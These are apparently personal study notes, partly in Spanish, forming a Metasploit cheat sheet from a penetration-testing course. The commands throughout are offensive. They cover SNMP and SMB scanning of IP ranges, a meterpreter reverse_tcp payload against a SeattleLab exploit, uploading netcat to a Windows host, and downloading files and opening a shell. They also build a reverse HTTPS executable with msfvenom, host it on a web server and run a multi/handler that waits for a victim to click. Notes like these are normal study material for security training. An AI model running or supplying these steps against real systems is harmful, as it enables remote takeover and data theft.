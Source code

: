 ```yaml
---
title: metasploit basics  
category: basics
order: 1
---
```




# METASPLOIT
---

## setup
```
root@kali: service postgresql start
root@kali: service metasploit start
root@kali: msfconsole

   ```


## auxiliar modules
```
msf> show auxiliary  <-nos muestra lista
msf> search snmp
...
...
msf> use auxiliary/scanner/snmp/snmp_enum
msf  auxiliary> info
...
...
msf auxiliary> show options
msf auxiliary> set RHOST 192.168.58.10-20
msf auxiliary> SET THREADS 10
msf auxiliary> run
```



## smb auxiliary
```
   msf > use /../smb_version
   msf (smb_version)> show options
   msf (smb_version)> set RHOST 10.10.0.10-20
   msf (smb_version)> set  THREADS 10
   msf (smb_version)> run
```




#  PAYLOADS
---
## stage and non stage payload

stage: send in 2 parts    
nonstage: 1 payload to rule them all

## STAGE PAYLOAD (meterpreter)

basics
```
msf exploit(seattlelab)>set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(seattlelab)> show options
msf exploit(seattlelab)> exploit
....
meterpreter> help
...
meterpreter>sysinfo
...
meterpreter>getuid
...
meterpreter>search
...
```

uploading a file
```
  meterpreter> upload /usr/share/../nc.exe c:\\Users\\Offsec
```

downloading
```
  meterpreter> download c:\\Windows\\system32\\calc.exe /tmp/calc.exe
```
Shell
```
  meterpreter> shell
  ...
  c:\>
```  
exit
```
  c:\> exit
  meterpreter> exit -y
  msf(saras)> back
  msf >
```
## Additional payloads
```
  msf> use windows/meterpreter/reverse_https
  msf payload(revers_https) > info
  ...
  msf > use windows/meterpreter/reverse_tcp_allports
  msf payload(reverse_tcp_allports)> info
```

## Generate a binary payload

```
   msf> msfvenom -l <lista todos los payloads
```
   we chose one ex: windows/meterpreter/reverse_https
```
   msf> msfvenom -p <payload ej reverse>  LHOST=<kali> LPORT=<PORT> -f exe --platform windows -a x86 > /var/www/reverse_met_https.exe
```

## multihandler
```
   root@kali: msfconsole
   msf >  use exploit/multi/handler
   msf exploit> set PAYLOAD windows/meterpreter/reverse_http (mismo que el binario)
   msf exploit> show options
   ....
   msf exploit> set LHOST < ip >
   msf exploit> set LPORT <port>
   msf exploit> exploit
   ...
   escuchando en 443
   ... cuando hagan click
   meterpreter> :)
```
